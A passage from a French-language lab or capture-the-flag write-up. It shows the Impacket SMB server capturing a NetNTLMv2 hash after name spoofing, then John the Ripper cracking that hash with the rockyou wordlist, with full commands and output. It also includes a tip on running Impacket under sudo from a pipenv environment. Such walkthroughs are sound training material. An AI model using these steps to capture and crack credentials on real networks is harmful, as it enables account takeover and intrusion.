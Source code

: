 On peut si on le souhaite ouvrir un petit tshark / wireshark pour voir le spoofing à l'oeuvre. Après on utilise le serveur SMB de Impacket en mode debug pour obtenir les éventuels hashs *netntlmv2* :  

```plain
$ sudo python examples/smbserver.py -debug -smb2support yolo /tmp/jail/

Impacket v0.9.22.dev1+20200424.150528.c44901d1 - Copyright 2020 SecureAuth Corporation 

[*] Config file parsed 
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0 
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0 
[*] Config file parsed 
[*] Config file parsed 
[*] Config file parsed 
[*] Incoming connection (192.168.56.24,43602) 
[*] AUTHENTICATE_MESSAGE (WORKGROUP\bonkachu,SNOW-MED) 
[*] User SNOW-MED\bonkachu authenticated successfully 
[*] bonkachu::WORKGROUP:4141414141414141:b8422cbc02b30c49258d64c9b96fe0d9:0101000000000000009bce5bfd1cd801066bd61b8d7eb0b60000000001001000570048007a004f0064004e0048004c0003001000570048007a004f0064004e0048004c00
020010006d0052004e0058007100610054007100040010006d0052004e005800710061005400710007000800009bce5bfd1cd801060004000200000008003000300000000000000000000000000000000382d2249b4d43d3203c929fcbf09d6c86591573094c9b6e39
db9a0e74d707e50a001000000000000000000000000000000000000900220063006900660073002f003100390032002e003100360038002e00350036002e00310000000000 
[*] Connecting Share(1:IPC$) 
[*] NetrShareEnum Level: 1 
[*] Disconnecting Share(1:IPC$) 
[*] Closing down connection (192.168.56.24,43602) 
[*] Remaining connections []
```

Sans entrer trop dans les détails j'ai un environnement Python virtuel (utilisant *pipenv*) pour *Impacket*. Vu que j'utilise *sudo* pour que *Impacket* écoute sur un port privilégié il ne sera pas capable d'utiliser le bon interpréteur Python (il va tenter d'utiliser celui du système au lieu du virtuel). Pour régler cela il faut spécifier le chemin complet du bon interpréteur (obtenu avec un *which python* une fois l'environnement activé).  

C'est tout pour cette aparté qui vous sera peut être utile une jour :)  

On peut casser le hash avec *John The Ripper*. L'avantage de JTR est qu'il se charge de détecter le type de hash comme un grand :  

```plain
$ john --wordlist=/tools/wordlists/rockyou.txt /tmp/hash.txt  
Using default input encoding: UTF-8 
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64]) 
Will run 4 OpenMP threads 
Press 'q' or Ctrl-C to abort, almost any other key for status 
madison          (bonkachu)      
1g 0:00:00:00 DONE (2022-02-08 16:17) 50.00g/s 102400p/s 102400c/s 102400C/s sokar..marion 
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably 
Session completed.
```
